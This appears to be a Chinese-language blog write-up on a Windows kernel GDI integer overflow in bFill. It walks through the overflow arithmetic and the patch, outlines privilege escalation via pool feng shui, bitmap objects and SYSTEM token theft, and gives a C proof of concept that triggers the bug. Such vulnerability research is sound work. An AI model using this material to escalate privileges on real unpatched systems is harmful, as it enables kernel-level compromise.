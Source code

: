 这就相当于

```c
if (eax > 14) {
    size = (eax * 3) << 4;
}
```

若控制 eax 的值为 `0x10000001` 那么由于整数溢出表达式的运算结果为 `0x30`, 被当做请求分配的内存大小参数，这样导致申请了一个较小的 `pool`，
但是可以输入的大小远远超过申请的大小，从而产生了池溢出。

再来看看 patch 的版本，

![]({{site.baseurl}}/images/2018-10-17/patch.png)

增加了用于检测整数溢出的函数 `UlongMult3`，该函数将参数中两个32位整数相乘，若结果大于 `0xffffffff` 则判断发生溢出，返回错误。

现在我们需要知道参数是否可控，如何触发漏洞？内核漏洞利用相当复杂，需要分为多个步骤，总的思路如下：

- 1. 触发漏洞函数

- 2. 控制内存分配大小

- 3. 内核池风水

- 4. 借助 bitmap Gdi objects

- 5. 获取 system token 完成权限提升

# Trigger the Vulnerable Function

直接从文章中可以知道到达 `bFill` 函数的调用链，感谢作者，如果让我自己分析，怕是啥都看不出来。作者使用推测和搜索大法，
由函数名 "bFill" 和函数参数中 `EPATHOBJ` 对象猜测函数的作用可能是填充路径，结合搜索找到了函数 `BeginPath`。

```
bFill@<rax>(struct EPATHOBJ *@<rcx>, struct _RECTL *@<rdx>, unsigned int@<r8d>, void (__stdcall *)(struct _RECTL *, unsigned int, void *)@<r9>, void *)
```

用如下 poc 代码可以触发 `bFill` 函数：

```c
#include <Windows.h>
#include <wingdi.h>
#include <stdio.h>
#include <winddi.h>
#include <time.h>
#include <stdlib.h>
#include <Psapi.h>

void main(int argc, char* argv[]) {
	//Create a Point array
	static POINT points[0x10001];
	// Get Device context of desktop hwnd
	HDC hdc = GetDC(NULL);
	// Get a compatible Device Context to assign Bitmap to
	HDC hMemDC = CreateCompatibleDC(hdc);
	// Create Bitmap Object
	HGDIOBJ bitmap = CreateBitmap(0x5a, 0x1f, 1, 32, NULL);
	// Select the Bitmap into the Compatible DC
	HGDIOBJ bitobj = (HGDIOBJ)SelectObject(hMemDC, bitmap);
	//Begin path
	BeginPath(hMemDC);

	PolylineTo(hMemDC, points, 0x10001);
	// End the path
	EndPath(hMemDC);
	// Fill the path
	FillPath(hMemDC);
}
```